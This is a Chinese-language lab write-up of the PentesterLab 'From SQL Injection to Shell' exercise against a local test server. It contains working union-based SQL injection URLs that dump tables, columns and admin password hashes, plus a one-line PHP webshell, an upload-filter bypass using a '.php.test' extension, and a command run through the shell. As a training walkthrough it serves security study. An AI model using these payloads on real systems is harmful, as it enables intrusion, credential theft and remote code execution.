 # From SQL Injection to Shell

## 实验基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是Linux的系统。  
- 攻击方采用的是Windows系统

### 实验过程
- **点击页面各选项，查看变化**  
  通过观察地址栏认定这是一个基于PHP的网页

  ![](P/1.jpg)
- **简单的SQL注入漏洞的判断**  

   
   1.使用UNION SELECT语句进行构造查看
  
   ![](P/2.jpg)

   页面未重新定制错误信息页，泄露出有可以攻击的点，通过构造相同的行数应该有可能可以完成攻击
  
   ![](P/3.jpg)
   
```
http://localhost:8000/cat.php?id=1 union select 1,2,3,4

```

   通过不断地构造发现，如下输入页面可以正常访问
  
   2.使用ORDER BY 语句进行构造，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。

![](P/4.jpg)

![](P/5.jpg)

**规律：**
1.列数小于等于页面列数时，可以正常显示
2.列数大于页面列数时，会报错

- **寻找注入所能利用的信息**

  通过尝试构造 1=1语句发现产生错误信息，发现该网页数据库为Mysql，利用这个特征尝试利用Mysql函数特质尝试发送一些重要信息给我们：
  
  ![](P/6.jpg)
  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称
  
```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,current_user(),3,44
```
![](P/7.jpg)

  
2.使用version()语句，得到数据库版本号
```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,@@version,3,4
```
![](P/8.jpg)


从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里，由此也许可以获取到一些敏感的信息。

得到对应的表和表内的列
- 表：
```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
```
![](P/9.jpg)

- 列：

```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns
```

![](P/10.jpg)

**利用查询语句得到管理员账号与密码** 
- 获取用于访问管理页面的用户名和密码

```
http://localhost:8000/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users
```
![](P/11.jpg)

- 利用网络查询或密码破解工具得到密码明文

[md5在线解密破解](http://pmd5.com/)  

![](P/12.jpg)

- 根据已知的账号密码成功登录到管理员界面：

![](P/13.jpg)

- 利用管理员界面相关功能上传Webshell和执行代码获取管理员权限：
```
<?php
  system($_GET['cmd']);
?>
```

![](P/14.jpg)

![](P/15.jpg)

> 应用防止文件扩展名.PHP上传,需要查找其他方式突破这个限制（php.test这将绕过简单的.php过滤器，但服务器仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。）

![](P/16.jpg)




查看网页源代码，查看所上传的PHP文件的位置。开始对服务器进行近身肉搏
![](P/17.jpg)


```
http://localhost:8000/admin/uploads/W2W.php.test?cmd=uname
```

![](P/18.jpg)
